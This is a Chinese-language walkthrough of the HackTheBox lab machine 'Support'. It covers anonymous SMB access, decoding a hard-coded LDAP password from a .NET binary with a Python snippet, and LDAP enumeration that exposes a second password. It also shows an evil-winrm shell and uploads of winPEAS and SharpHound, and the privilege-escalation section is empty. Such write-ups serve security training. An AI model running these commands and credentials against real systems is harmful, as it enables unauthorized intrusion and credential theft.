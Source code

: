 ```yaml
---
description: Easy / 分析程序文件 / LDAP枚举 /
---
```


# ✔️ Support

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA support 10.129.230.181 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 先进行SMB匿名登录测试，发现可以登录上去，且有感兴趣的共享文件/support-tools（这种和靶机名称一致的提示还是蛮明显的）：

```bash
smbclient -N -L 10.129.230.181
```

<figure><img src="../../.gitbook/assets/3 (9).png" alt=""><figcaption></figcaption></figure>

* 分别尝试把这些共享文件递归下载到本地，也发现只有/support-tools的可以下载，其他的都拒绝：

```bash
smbclient //10.129.230.181/support-tools
RECURSE ON
PROMPT OFF
mget *
```

<figure><img src="../../.gitbook/assets/4 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 下载到Kali本地后，查看发现都是exe文件和一个压缩包文件，名称是UserInfo，猜测可能包含用户信息：

<figure><img src="../../.gitbook/assets/7 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 解压UserInfo.exe.zip，比较感兴趣的有config文件和exe文件：

<figure><img src="../../.gitbook/assets/8 (1) (1).png" alt=""><figcaption></figcaption></figure>

* config文件，有.NET框架的版本号信息，其他的好像没什么了：

<figure><img src="../../.gitbook/assets/9 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 没有预期的任何凭证之类的内容，用enum4linux枚举也无任何收获：

```bash
enum4linux 10.129.230.181
```

<figure><img src="../../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

* smbmap也没有收获：

```bash
smbmap -H 10.129.230.181 -u "" -p ""
```

<figure><img src="../../.gitbook/assets/11 (8).png" alt=""><figcaption></figcaption></figure>

* 尝试RPC空密码连接被拒绝：

```bash
rpcclient 10.129.230.181
```

<figure><img src="../../.gitbook/assets/12 (9).png" alt=""><figcaption></figcaption></figure>

* 回到刚才解压出来的UserInfo.exe，查看其信息：

```bash
file UserInfo.exe
```

<figure><img src="../../.gitbook/assets/13 (9).png" alt=""><figcaption></figcaption></figure>

* 把这个exe文件放入Windows系统中运行试试，这里要把整个解压出来的所有文件都一起放进Windows中，不然会运行不成功：

<figure><img src="../../.gitbook/assets/14 (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (6).png" alt=""><figcaption></figcaption></figure>

* 因为当前没有收集到可以用的用户名，所以直接运行该程序没用：

<figure><img src="../../.gitbook/assets/17 (5).png" alt=""><figcaption></figcaption></figure>

* 把UserInfo.exe放入dnspy中分析其代码：

<figure><img src="../../.gitbook/assets/18 (6).png" alt=""><figcaption></figcaption></figure>

* 在protected目录下的.cctor()中找到编码后的密码：

<figure><img src="../../.gitbook/assets/19 (1) (1).png" alt=""><figcaption></figcaption></figure>

* python IDLE终端解码后得到明文密码：'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

```python
from base64 import b64decode
from itertools import cycle
pass_b64 = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"
enc = b64decode(pass_b64)
[e^k^223 for e,k in zip(enc, cycle(key))]
bytearray([e^k^223 for e,k in zip(enc, cycle(key))]).decode()
```

<figure><img src="../../.gitbook/assets/20 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用crackmapexec验证一下凭证是否有用：

```bash
crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

<figure><img src="../../.gitbook/assets/21 (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 因为该程序的代码中的ldapquery，用的是ldap协议，所以用ldapsearch和当前已获得的有效凭证列举出AD中所有的内容：

<figure><img src="../../.gitbook/assets/23 (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
ldapsearch -H  'ldap://10.129.230.181' -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

* 输出结构特别多，需要仔细查看才能发现其中的support账户里包含了一个info字段，里面的字符串看上去像是密码（因为其他账户没有info这个字段）：

<figure><img src="../../.gitbook/assets/24 (1).png" alt=""><figcaption></figcaption></figure>

* 尝试使用evil-winrm和这个凭证连接，获取到了shell：

```bash
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```

<figure><img src="../../.gitbook/assets/25 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/26 (3).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS.exe到目标系统进行信息枚举，没什么特别收获：

<figure><img src="../../.gitbook/assets/27 (3).png" alt=""><figcaption></figcaption></figure>

* 上传sharphound.exe收集信息到bloodhound里进行分析：

<figure><img src="../../.gitbook/assets/28 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/29 (3).png" alt=""><figcaption></figcaption></figure>

* 运行bloodhound把zip包拖进去即可：

<figure><img src="../../.gitbook/assets/30 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/31 (2).png" alt=""><figcaption></figcaption></figure>



### ROOT





















{% hint style="info" %}
本例虽然是被归类为简单机器，但是涉及到自己的盲区较多，看的提示较多完成度不高，对我来讲算难的机器。
{% endhint %}
